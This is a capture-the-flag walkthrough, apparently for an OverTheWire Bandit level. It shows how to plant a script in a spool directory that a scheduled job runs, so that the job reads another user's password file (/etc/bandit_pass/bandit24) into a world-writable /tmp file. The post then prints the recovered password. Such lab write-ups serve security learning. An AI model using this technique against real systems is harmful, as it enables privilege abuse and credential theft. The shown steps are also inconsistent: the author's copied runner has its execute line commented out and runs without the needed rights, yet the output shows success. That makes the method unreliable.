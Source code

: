 ```console
cd /var/spool/$myname
echo "Executing and deleting all scripts in /var/spool/$myname:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        timeout -s 9 60 ./$i
        rm -f ./$i
    fi
done
```
each 60 sec, the script execute all script in /var/spool/$myname and remove it. 
so now let make it execute when we want (not each 1 min) by just copy the code and change $myname to bandit24
```console
$ mkdir /tmp/kurohat23
$ cd /tmp/kurohat23
§ nano bandit23.sh # copy script below, not that I commented timeout out,
#!/bin/bash

cd /var/spool/bandit24
echo "Executing and deleting all scripts in /var/spool/bandit24:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        # timeout -s 9 60 ./$i
        rm -f ./$i
    fi
done
$ chmod 777 bandit23.sh #make it execute able
```
now let make a script which will fetch the password and output it to us
```console
$ nano fetchkey.sh
#!/bin/bash
cat /etc/bandit_pass/bandit24 > /tmp/kurohat23/key.txt #get password and put it in key.txt
$ chmod 777 fetchkey.sh  #make it execute able
$ touch key.txt # create key.txt for recieving password
$ chmod 666 key.txt # give everyone read/write permission
$ cp fetchkey.sh /var/spool/bandit24 # copy the script and put it in /var/spool/bandit24
$ ./bandit23.sh #run bandit23.sh
Executing and deleting all scripts in /var/spool/bandit24
Handling *
Handling .*
$ cat key.txt 
UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ
```
passpassword to the next lv : ```UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ```
